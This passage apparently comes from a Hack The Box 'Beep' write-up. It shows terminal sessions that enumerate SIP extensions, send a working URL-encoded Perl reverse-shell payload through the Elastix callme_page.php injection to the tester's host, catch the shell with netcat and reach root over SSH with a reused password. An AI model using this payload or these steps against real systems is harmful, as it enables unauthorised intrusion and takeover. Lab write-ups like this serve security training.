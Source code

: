 ```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ svwar -m INVITE -e100-500 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```

Fixed the exploit, a reverse shell is obtained:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ python 18650-fixed.py
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.24%3a5505%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ nc -nlvp 5505        
listening on [any] 5505 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.7] 35833
whoami
asterisk
```

# Privilege Escalation

## Root login due to credentials reuse (#1)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ ssh root@10.10.10.7 -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
root@10.10.10.7's password: 
Last login: Tue Apr 27 17:42:23 2021 from 10.10.14.24

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami && hostname && cat /home/fanis/user.txt && cat /root/root.txt && ifconfig -a
root
beep
4b4455d3b590c2f6505a8aa3ebc460a9
97c50cb86a99c086e8bec4720e0c423d
eth0      Link encap:Ethernet  HWaddr 00:50:56:B9:0C:8C  
          inet addr:10.10.10.7  Bcast:10.10.10.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1452131 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1191514 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:160893887 (153.4 MiB)  TX bytes:297989614 (284.1 MiB)
          Interrupt:59 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
```